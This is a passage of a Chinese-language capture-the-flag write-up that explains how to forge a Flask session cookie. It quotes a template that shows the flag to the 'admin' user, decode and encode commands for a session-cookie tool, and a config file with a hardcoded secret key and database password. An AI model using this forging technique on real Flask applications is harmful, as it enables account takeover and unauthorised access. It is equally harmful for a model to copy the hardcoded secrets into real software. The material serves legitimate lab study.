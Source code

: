 ```html
{% include('header.html') %}
{% if current_user.is_authenticated %}
<h1 class="nav">Hello {{ session['name'] }}</h1> //name变量存在于session中
{% endif %}
{% if current_user.is_authenticated and session['name'] == 'admin' %}
<h1 class="nav">hctf{xxxxxxxxx}</h1> //如果是admin用户,登录后会直接显示flag
{% endif %}
<!-- you are not admin -->
<h1 class="nav">Welcome to hctf</h1>

{% include('footer.html') %}
```

>` flask`的`session`是存储在客户端`cookie`中的，而且`flask`仅仅对数据进行了签名。众所周知的是，签名的作用是防篡改，而无法防止被读取。而`flask`并没有提供加密操作，所以其`session`的全部内容都是可以在客户端读取的，这就可能造成一些安全问题。

可以使用脚本对`flask`的`session`进行解密和伪造:

注册一个名为`admin1`的账户并登录,抓包看到当前的`cookie`中的`session`值:

<img src="/images/buuctf-web/image-20221016213837939-166704781973463.png" alt="image-20221016213837939" style="zoom:67%;" />

可以使用脚本对`session`进行解密:https://github.com/noraj/flask-session-cookie-manager

用法:

```shell
py flask_session_cookie_manager3.py decode -c "session值" -s "key值"
py flask_session_cookie_manager3.py encode -s "key值" -t "我们需要伪造的值"
```

可以在`config.py`中找到`key`的值:`ckj123`

```python
import os
class Config(object):
    SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
    SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
    SQLALCHEMY_TRACK_MODIFICATIONS = True
```
